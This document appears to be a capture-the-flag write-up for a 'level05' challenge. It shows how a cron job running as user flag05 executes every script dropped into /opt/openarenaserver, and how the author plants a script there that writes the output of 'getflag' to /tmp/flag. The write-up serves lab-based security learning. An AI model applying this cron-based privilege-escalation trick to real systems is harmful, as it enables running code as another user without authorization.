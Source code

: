 By logging in with the user level05 i received a message : "You have a new mail."

I then use the command find , to search every file/dir with the name mail/level05/flag05
At /var/mail/level05 i found a crontab file :

	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

This is running the command "sh /usr/sbin/openarenaserver" every 2 minutes with the user flag05.

At /usr/sbin/openarenaserver i found this script :

	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

It runs every program at /opt/openarenaserver and remove them;

I then created a script at /opt/openarenaserver/test :

	#!/bin/sh
	getflag > /tmp/flag

Waited 2 minute and fetched the flag at /tmp/flag

